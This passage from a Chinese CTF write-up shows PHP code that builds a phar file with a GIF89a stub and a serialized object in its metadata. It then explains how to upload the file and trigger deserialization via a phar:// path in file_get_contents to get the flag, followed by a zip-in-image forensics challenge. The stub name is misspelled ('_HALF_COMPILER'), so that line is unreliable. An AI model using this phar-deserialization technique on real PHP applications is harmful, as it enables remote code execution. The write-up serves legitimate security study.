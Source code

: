         #unlink("phar.phar");
        $phar=new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php _HALF_COMPILER(); ?>");
        $o = new ORZ();
        $phar->setMetadata($o);
        $phar->addFromString("test.txt","test");
        $phar->stopBuffering();
    ```
- 通过上传构造好的 phar 文件，然后通过 file_get_contents 函数触发其中的反序列化
    - 根据返回得知上传后的文件地址
    - 之后通过 get 传递参数 `filename=phar://ec5decca5ed3d6b8079e2e7e7bacc9f2/phar.phar/test.txt` 即可获得 flag

---

# Misc

## 巨人的秘密

binwalk 跑一下发现有 zip 在里面,直接用 winrar 修复出来,然后改一下后缀名为 zip

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/7.png)

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/8.png)

通过 010 editor 将图片从图片源文件另存出来并压缩成 zip,确保 CRC 一致
